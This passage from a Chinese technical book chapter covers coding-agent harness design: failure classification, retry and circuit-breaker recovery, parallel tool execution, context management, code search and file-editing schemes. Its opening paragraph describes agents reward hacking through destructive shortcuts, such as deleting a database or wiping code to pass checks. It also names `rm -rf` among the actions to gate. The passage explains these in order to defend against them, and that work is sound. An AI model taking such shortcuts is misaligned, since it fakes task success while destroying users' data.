**约束的另一层目的：防止过程性错误。** 验收基线管的是结果对不对，执行边界管的是**过程**——即使结果正确，用错误的方法达成也不行。修复数据库故障时直接把库删了重建，“修复”确实生效，但数据没了；修复编译错误时把代码全删重写，编译确实通过，但实现没了。这类破坏性捷径总是存在：即使把限制写进最终评估指标，Agent 也常能找到绕过去的办法——这正是第七章讨论的 reward hacking 在 Agent 任务中的日常形态。因此生产级 Harness 要对 `rm -rf`、删除生产数据、覆盖未读文件这类危险动作设置专门的检查与审批（本章安全一节的语义解析、第四章的 Sidecar 复核），约束的是**动作**而非仅仅是结果。第七章的 RLVP（验证路径惩罚，“奖励结果、惩罚路径”）从训练侧回答同一个问题：在最终结果奖励之外，对过程中可验证的违规动作施加惩罚，把“不用破坏性手段”内化为模型的工程常识。对已有模型，Harness 护栏是外部约束；对可训练模型，过程惩罚是内部内化——两者目标一致。

**工具编排：故障边界控制**。成熟的 Coding Agent 支持并行工具调用，Harness 视角下的独特问题是**故障如何传播**：一个工具失败时，哪些调用应当中止、哪些应当继续？原则是故障只在同一批并行调用内传播，不上升到父级操作——比如同时读取三个文件，其中一个找不到，应该只报告这一个失败，而不是把另外两个也取消掉，更不是让整个任务中止。这种精细的故障边界控制避免了“一个命令失败导致整个任务中止”的脆弱模式。并行调用、流式解析与级联中止的具体机制见本章“实现技巧”一节。

### 故障与错误恢复

上一节给出了 Harness 工程的原则与组件，本节深入其中最能拉开工程差距的一块——**故障与错误恢复**。第一章的消融实验已经展示过问题的严重性：仅仅缺失一条工具结果反馈，就足以让 Agent 陷入无限循环；而真实生产环境中的故障远比实验里多样。本节系统地回答三个问题：生产级 Harness 会遇到哪些故障？如何检测与恢复？又在什么时候必须终止[^ch5-3]？

[^ch5-3]: 本节的故障分类与机制分析基于对 Claude Code 等生产级 Agent 实现的源码研究。具体实现随版本快速演进，本节只提炼其中稳定的工程原则。

**故障分类学：四层故障。** 系统应对的第一步是分类。按故障发生的位置，可以分为四层：

- **API 层**：限流（HTTP 429）、服务过载、请求超时、连接中断、输出触顶被截断。这类故障与任务内容无关，是基础设施的噪声。
- **工具层**：幻觉调用（调用了不存在的工具）、参数畸形（不符合工具的输入约束）、执行抛异常，以及最危险的一种——工具反复返回同一个错误，而模型不加改变地反复重试。
- **上下文层**：上下文窗口溢出、压缩失败、轨迹结构损坏（如工具调用缺少配对的结果消息）。
- **控制流层**：死循环（反复执行相同操作却毫无进展）与死亡螺旋（错误触发的恢复逻辑自身又调用 LLM、再次出错、连锁反应）。

**检测：先分类，再计数。** 捕获故障后的第一个判断不是“要不要重试”，而是“值不值得重试”。可重试的错误（限流、过载、网络抖动）重试才有意义；不可重试的错误（参数不合法、权限不足、工具不存在）原样重试多少次都是同样的结果，必须改变输入或策略。生产级 Harness 维护一张错误到恢复策略的映射表，而不是笼统地“出错就重试”。

单次错误之外，还要检测**模式**。一是重复调用指纹：对“工具名 + 参数”计算指纹，相同指纹反复出现就是无进展循环的明确信号——第一章消融实验中 Agent 反复调用同一工具，正是这种模式。二是连续失败计数：每条恢复路径维护独立的计数器，为后文的熔断提供依据。

还有一类故障不表现为错误，需要专门的**活性与完整性监控**。流式连接最危险的失败模式不是断开（这会立即报错），而是静默卡死——连接建立成功但数据流停止，像水管通着但不出水；SDK 的超时机制往往只覆盖初始连接而非传输过程，因此生产级 Agent 需要独立的空闲看门狗（watchdog timer，超过设定时间没有新输出就判定为卡死），超时后主动杀死挂起的流并触发重试。可推广为一条原则：**每个长连接都需要活性信号，而非仅依赖连接超时**。完整性监控则针对轨迹结构：发现工具调用缺少配对的结果消息时，系统会在注入上下文前自动修复配对关系，而不是把结构异常抛给模型或用户。一个值得注意的工程细节是，部分生产级 Agent 同时运行产品模式和训练数据收集模式——产品模式下可以用占位符修补缺失的消息，训练模式下则拒绝修复，因为合成占位符会污染训练数据。“产品模式宽容、训练模式严格”的双重标准，体现了 Harness 与模型训练的深度耦合。

**恢复：分级升级，逐级透明。** 恢复手段按对用户透明的程度分级，能用低级别解决就不升级：

1. **静默重试**。可重试错误的默认动作。两个细节决定成败：指数退避叠加随机抖动，避免大量客户端同步重试造成二次拥塞，并尊重服务端返回的等待时长提示；区分前台与后台调用——主循环的请求失败要重试，标题生成、输入建议这类辅助性后台调用失败则直接放弃，否则后台重试会挤占主链路的配额，形成“重试放大”。
2. **降级与接续**。重试无效时，改变请求本身再试。以输出触顶（生成到一半被长度限制截断）为例：先静默提升输出上限重发，仍不够再在消息末尾追加元指令、让模型从断点接续生成。主模型持续过载时降级到备用模型（需先剥离旧模型私有的格式块，否则新模型无法解析历史消息）；高成本模式被限流时暂时回落到标准模式。
3. **暴露给用户**。所有自动手段用尽后才呈现错误，并附上已经尝试过的恢复动作。

工具层错误走另一条路：**不终止会话，把错误变成模型的输入**。幻觉调用会收到“工具不存在”的结构化错误结果；参数校验失败会收到附带输入约束提示的错误；畸形参数（本该是对象却输出了字符串）在执行前先经过程序化修复。这些错误以普通工具结果的身份进入上下文，由模型在下一轮自行纠正——这正是前文“反馈越结构化越好”原则的应用：喂回的错误越具体，模型自我纠正的成功率越高。

这一节的核心原则是：**错误处理的边界不是单次请求，而是整个恢复循环**。在确认无法恢复之前，中间错误不应暴露给消费者——无论是用户还是订阅事件的下游系统：恢复期间扣留错误消息，恢复成功则消费者毫无感知，全部失败才一并释放。这正是第一章“在确认无法恢复之前，不暴露中间态”这一纠正原则的工程化。

**终止：每条恢复路径都要有上限。** 恢复机制本身也可能失效，因此每条恢复路径都必须有明确的熔断上限：上下文压缩连续失败若干次就放弃压缩，权限分类连续失败就回退到人工询问，输出接续最多尝试固定轮数。阈值从哪来？答案是产线数据而非拍脑袋。以 Claude Code 的压缩熔断为例，“连续 3 次”的阈值来自真实会话统计——曾有一个会话在这条恢复路径上连续失败三千余次，仅这类无效重试每天就在全球浪费约 25 万次 API 调用；逾千个会话出现过 50 次以上的连续失败。3 次正是“绝大多数故障在此之前已恢复”与“继续重试基本无望”之间的经验拐点。

比单点熔断更隐蔽的是**死亡螺旋**：错误路径上触发的逻辑自身又调用 LLM，再次出错，连锁触发。一个真实的连锁形态：Agent 因上下文溢出而停止，触发“结束时自动提交代码”的停止钩子（Agent 结束时自动执行的清理逻辑），钩子调用 LLM 生成 commit message，再次上下文溢出，再次触发钩子。防护靠两条：在错误路径上禁用一切会再次调用模型的副作用逻辑（宁可丢掉一次辅助功能，如自动记忆提取），以及用递归深度计数器检测并打断残余的连锁。最后，在所有自动化机制之上还需要全局的终止与升级条件：最大迭代轮数、会话预算上限，以及连续失败超过阈值时升级到人工干预（第四章的拒绝熔断器即是一例）。

回到第一章的思考题：除工具结果缺失外，工具反复报同一错误、幻觉调用、上下文压缩丢失状态、任务本身无解，都可能让 Agent 陷入循环。检测靠“错误分类 + 模式识别”，恢复靠“分级升级”，终止靠“熔断器 + 全局上限 + 人工升级”——三者合起来，就是 Harness 对“Agent 可能永远跑下去”这个问题的完整回答。这些机制解决的不是“模型能力不足”的问题，而是“系统在边界条件下的鲁棒性”问题：模型会越来越强，但网络会断、进程会挂、用户会做出意料之外的操作。说得再本质些——**Agent 的可靠性不取决于它犯不犯错，而取决于每类错误是否都有对应的检测、恢复与终止路径**。

### Coding Agent 的实现技巧

上面的工作流程是理想状态。要让它在实践中真正跑起来，还需要几个具体的实现技巧——在保证思考质量的前提下，把响应速度提上去、把上下文消耗降下来。它们是第二章、第四章讨论的通用 Agent 技术在编程领域的具体应用。

**并行工具调用、流式执行与级联中止。**

传统 Agent 实现往往采用串行模式：生成一个工具调用，执行完，拿到结果，再决定下一步。这种严格的排队等待浪费了大量时间。

现代 Coding Agent 应充分利用流式响应：第二章在讨论模型输出顺序时介绍了这一机制——第一个工具调用的参数一经生成完整、通过校验，即可立即开始执行，无需等待模型生成后续的工具调用。例如，模型在一次推理中要连续输出搜索代码、查配置文件、读日志三个工具调用，第一个调用的参数刚一完整通过校验就能立即启动，与后两个调用的生成过程重叠进行；彼此独立的调用之间还可并行执行而非排队等待。这种重叠执行显著降低了端到端延迟，使 Agent 的响应更加敏捷。

并行执行的另一面是故障处理。每个工具定义应声明自己是否支持并发执行（默认为否，失败安全）；当某个调用失败时，通过级联中止机制终止同一批并行启动、依赖该结果的其他调用，但不波及独立的调用和父级操作——这正是 Harness 工程一节中“故障边界控制”原则的具体实现。

**上下文的精细化管理。**

Coding Agent 面临的根本挑战是代码库通常很大，但模型上下文窗口有限。即使先进模型号称支持百万级 token，把整个代码库一股脑塞进上下文既不经济也没必要。智能的上下文管理需在多个层面展开。

在文件读取层面，Agent 不应总是读取文件全部内容。对大型文件，工具应支持按行号范围读取特定片段——比如只读第 100 到 150 行，而不是把几千行的文件全部加载。更重要的是，返回内容时附加行号标注——每行代码都以实际行号作为前缀。这个看似简单的设计带来巨大价值：模型可精确引用“在 `src/main.py` 的第 42 行”，减少歧义并使后续编辑操作更可靠。

在命令执行层面，终端输出的处理同样需要谨慎。编译或测试可能产生数千行输出，如果全部注入上下文会迅速耗尽预算。第四章介绍的长输出截断与持久化机制在这里广泛应用：保留输出的前若干行（通常包含错误上下文）和后若干行（通常包含错误总结），中间以一行提示替代，并说明完整输出已保存到临时文件供按需查看。

**环境信息的动态注入。**

这是第二章介绍的 Agent 状态栏技术在 Coding Agent 中的集中体现。与通用 Agent 不同，Coding Agent 高度依赖执行环境的状态。每次推理前应在上下文末尾以 Agent 状态栏形式注入以下关键环境信息：

- **当前工作目录**：确保路径引用不会出错
- **git 分支**：知道自己在主分支还是特性分支上工作
- **最近提交记录**：了解项目的演化脉络
- **未暂存和已暂存的变更概览**：清楚已经做了哪些修改

这些信息不应硬编码在静态系统提示词中——那样会破坏 KV Cache 效率——而应作为动态的、追加式的 Agent 状态栏实时生成并注入。通过这种方式，Agent 获得了“环境感知”能力，每个决策都基于对当前状态的准确理解，而非过时的假设。

**命令执行环境的状态持久化。**

在与代码交互时，许多操作依赖环境状态：切换目录、激活虚拟环境、设置环境变量、启动后台服务。如果每次命令都在全新 shell 中执行，这些状态都会丢失——Agent 刚用 `cd` 切到项目目录，下一条命令又回到了根目录，不得不反复做同样的设置。更糟糕的是，某些操作（如激活 Python 虚拟环境）的效果只在当前 shell 会话中有效，无法跨会话传递。

因此应维护一个持久化的终端会话，在 Agent 启动时创建并在整个交互过程中保持活跃。每次命令都在这个共享终端中执行，保留工作目录、环境变量和会话状态。这种设计更符合人类开发者的工作习惯——我们通常就是在一个长期运行的终端窗口中工作。当然，Agent 也应保留启动隔离终端的能力以支持并行任务，但持久化会话应是默认模式。

**即时的语法反馈机制。**

这再次体现了 Agent 状态栏技术的价值。Agent 修改代码后，不应等到用户明确要求测试时才检查语法。更高效的做法是：文件写入操作一完成，工具层就自动运行相应的 linter 或语法检查器，将检查结果作为工具返回值的一部分呈现给 Agent。如果检测到语法错误，Agent 在下一轮推理中立即看到详细错误信息——就像程序员在 IDE 中打错一个括号，编辑器立刻画红线提醒一样。这种即时反馈机制显著降低了错误修复成本，因为 Agent 可以在错误引入的那一刻就进行修正，而不需要等到运行测试时才发现问题。

这五个实现技巧——并行与流式、上下文管理、环境感知、状态持久化、即时反馈——共同构成了高效 Coding Agent 的技术基础。它们不是孤立的优化点，而是相互配合的设计决策，共同指向一个目标：让 Agent 能够像经验丰富的开发者那样流畅地工作。

### Coding Agent 中的搜索工具

在庞大的代码库中定位相关代码是 Coding Agent 工作的起点。图5-3 对比了几类互补搜索工具，说明成熟 Coding Agent 应如何根据任务性质选择检索方式。


**正则表达式内容匹配**（grep/ripgrep）：最传统的搜索方式，逐行扫描文件内容进行模式匹配。当 Agent 知道要查找的具体文本（函数名、变量名、错误消息）时，能快速准确地定位所有出现位置。正则表达式（用特殊符号描述文本模式的语法，如 `def handle.*` 匹配所有以 `handle` 开头的函数定义）的强大表达能力可以捕捉复杂模式，不仅可以搜索字面文本，还可以搜索符合特定结构的代码片段。在实际使用中还应支持文件类型过滤（只搜索 Python 文件）和路径模式过滤（排除测试目录）以减少噪音。根本局限在于只能找到文本上匹配的内容，无法理解语义——搜索“用户认证”时，无法找到虽然没有“认证”二字但确实处理登录逻辑的函数。

**文件名模式匹配**（glob）：不看文件内容，只在文件系统的路径结构中查找符合模式的文件。如 `**/*.test.ts` 递归找到所有 TypeScript 测试文件，`src/components/**/Button.tsx` 在 components 下任意深度查找 Button.tsx。速度比内容搜索快得多（不需要打开和读取文件），是 Agent 探索项目结构的第一步——通过快速扫描整个文件系统建立项目的组织框架。

**语义代码搜索**：与前两种精确匹配方法不同，试图理解查询和代码的“意义”。需解决两个关键问题：

- **结构感知的分块**：代码有严格的语法结构，应按函数、类、方法等完整语义单元切分，而非按固定字符数盲目切割。
- **混合检索**（第三章详细介绍了这套技术栈）：向量嵌入（稠密嵌入）擅长找到语义相似但用词不同的代码（比如搜索“验证用户身份”能找到名为 `check_credentials` 的函数），关键词匹配（BM25，一种基于词频和文档长度的经典检索算法）擅长精确匹配函数名和变量名。两者并行执行后通过重排序模型（reranker，用交叉编码器对候选结果做精细化的相关性排序）合并排序，互补覆盖。

语义搜索特别适合探索性任务，如在不熟悉的代码库中寻找“与数据库交互”或“处理用户输入验证”相关的代码。

不过，是否值得为语义搜索建立嵌入索引，业界存在明显的路线之争。以 Claude Code 为代表的终端型 Agent 刻意**不建嵌入索引**，纯靠 agentic 的 grep + glob 现场检索——这样既不必维护随代码演化而不断陈旧的索引、也省掉了一整套索引基础设施，更避免了把代码嵌入外发到第三方服务的风险。Cursor 这类 IDE 型工具则走相反路线：愿意为**跨文件的语义召回**付出建索引的成本，靠嵌入索引在大型代码库中快速找到语义相关但用词不同的片段。两条路线的取舍，本质上是在“基础设施与数据外发的代价”和“跨文件语义召回的收益”之间做权衡。

**符号级定义与引用查找**：基于 IDE 的“跳转到定义”“查找所有引用”能力（LSP，即 Language Server Protocol，语言服务器协议——一种让编辑器与语言分析引擎通信的标准协议），能区分同名符号的定义和调用——例如它知道 `authenticate` 在第 42 行是函数定义、在第 189 行是调用，而文本搜索只能找到所有包含该字符串的行。对代码重构尤其关键——重命名函数时不能仅靠文本搜索（函数名可能出现在注释或字符串中），必须通过符号搜索精确定位定义和所有真正的调用点。

这四种搜索方式构成互补的工具箱，实践中往往组合使用：先用语义搜索找到相关模块，再用正则匹配精确定位具体代码行，最后通过符号搜索追踪调用链——“从粗到细、从语义到语法”的渐进式策略。

### Coding Agent 中的文件编辑工具

文件编辑的难点不在于操作本身，而在于如何让 LLM 以高效又可靠的方式告诉系统“改哪里、怎么改”。图5-4 对比了五种文件编辑方案，展示人类语言表达与机器精确执行之间的根本张力。




**差异描述 + Apply Model**：模型不是直接指定如何编辑文件，而是生成一份变更描述——可以是类似 git diff（即 `git diff` 命令输出的那种“删了哪几行、加了哪几行”的格式）的差异文本，也可以是带省略标记的代码骨架（用“此处保持不变”之类的注释跳过未修改部分）。这份描述随后交给专门的“应用模型”（Apply Model）——通常是另一个更小、更快的 LLM——负责与原文件合并、产出完整的新文件。这种分离关注点的设计让主模型专注高层代码逻辑、应用模型专注底层文本操作。朴素实现的脆弱性在于合并环节：变更描述与文件实际代码有微小出入时需判断是否同一位置，存在多个相似代码片段时可能合并到错误的地方。Cursor 是这条路线持续演进的代表：主模型输出带省略标记的代码骨架，由专门训练的 fast-apply 小模型重写出完整文件，并借助推测解码（speculative decoding，以原文件内容为草稿并行验证）把合并速度做到每秒上千 token——用工程投入换取了这条路线的可靠性和速度。

**旧字符串到新字符串**（Old String → New String）：Claude Code 采用的方案。模型提供 old string（要被替换的原文）和 new string（替换后的新文本），框架执行简单的字符串查找替换。优势是可预测性和透明性——old string 在文件中存在且唯一则成功，否则失败，不存在模棱两可。代价是删除大段代码时需完整输出所有原始内容，一个字符的偏差就会匹配失败；同一代码出现多次时需提供更长的上下文来消除歧义。

**行号定位**（Old Line Numbers → New String）：模型指定“删除第 X 到 Y 行，插入新内容”。行号精确无歧义，大段删除只需两个数字。但模型“数”行号容易出错，尤其文件很长时。实践中通常在读取文件时给每行加上行号标注来缓解，但每次编辑后后续行号都会变化，这就限制了多处编辑的并行性。

**类 Vim 编辑命令**：借鉴 Vim 编辑器的命令体系，支持复制、剪切、粘贴等丰富操作。对重组代码（将函数从一处移动到另一处）非常高效。但命令语法的学习负担较大，最强的模型能较好使用，较小的模型错误率则会明显上升。

**字符串首尾匹配**（Old String Start + End → New String）：可以看作旧字符串替换方案的改进。模型不需要输出完整的 old string，只需提供要删除内容的开头几行和结尾几行，中间部分可省略。框架通过匹配这个开头和结尾来定位替换区域，只要这对“首尾”组合在文件中唯一就能准确定位。这种方案综合了文本替换的可靠性和行号方案的效率——处理大段代码删除时无需输出数百行原始代码，只需展示边界即可。同时因为仍然基于内容匹配而非抽象行号，模型犯错的风险相对较低。

**实践建议**。综合来看，主流 Coding Agent 在两条路线上各有代表：Claude Code 采用“旧字符串到新字符串”方案——可靠性优先、实现简单、无需额外模型；Cursor 则把 Apply Model 路线做到了极致——以专用 fast-apply 模型的训练和推理投入，换取更高的编辑吞吐。对自建 Agent 而言，“旧字符串到新字符串”是最稳妥的起点；处理大段改动时“字符串首尾匹配”是更经济的折中；行号方案仅在 IDE 深度集成（编辑器实时维护行号映射、并能在每次编辑后立即重新供给模型）的场景下才具备可靠性，否则容易因行号漂移而失效。
